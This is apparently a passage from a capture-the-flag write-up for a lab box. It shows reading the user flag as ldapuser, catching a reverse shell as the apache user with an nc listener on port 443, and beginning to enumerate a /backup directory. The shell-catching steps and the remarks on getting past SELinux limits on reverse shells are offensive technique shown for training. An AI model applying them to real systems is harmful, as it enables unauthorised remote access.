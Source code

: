 And access as ldapuser gives me `user.txt`:

```

[ldapuser@ctf ~]$ ls
user.txt
[ldapuser@ctf ~]$ cat user.txt
74a8e86f...

```

### Shell as apache

With command execution, I’ll use that to get a shell:

![1549883152700](https://0xdfimages.gitlab.io/img/1549883152700.png)

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.122.
Ncat: Connection from 10.10.10.122:35934.
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```

A couple things to note here:
- For some reason, while this web request hangs, it seems to lock up our access to port 80. Exiting the shell will open 80 back up.
- The author’s intent was to configure SE Linux to prevent the common reverse shells. This does prevent things like callbacks on non web or ldap ports, and writing pipes to `/tmp`. But it’s not enough to stop all reverse shells. I’ll [play with SELinux](#selinux) a bit and [write my own shell to submit commands](#shell-as-apache-1) in Beyond Root.

## Read as root

### Enumeration - Find /backup

Right away I’ll notice an extra directory at the root level, `backup`:

```

[ldapuser@ctf /]$ ls
backup  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

```
